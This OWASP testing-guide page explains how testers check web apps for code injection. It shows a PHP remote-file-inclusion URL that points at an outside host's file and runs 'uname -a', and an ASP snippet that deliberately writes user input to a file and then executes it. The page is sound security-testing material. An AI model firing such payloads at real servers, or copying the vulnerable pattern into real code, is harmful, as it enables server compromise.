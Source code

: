 ```yaml
---

layout: col-document
title: WSTG - Stable
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Code Injection

|ID          |
|------------|
|WSTG-INPV-11|

## Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](https://owasp.org/www-community/attacks/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

## Test Objectives

- Identify injection points where you can inject code into the application.
- Assess the injection severity.

## How to Test

### Black-Box Testing

#### Testing for PHP Injection Vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray-Box Testing

#### Testing for ASP Code Injection Vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### References

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipedia](http://www.wikipedia.org)
- [Reviewing Code for OS Injection](https://wiki.owasp.org/index.php/OS_Injection)
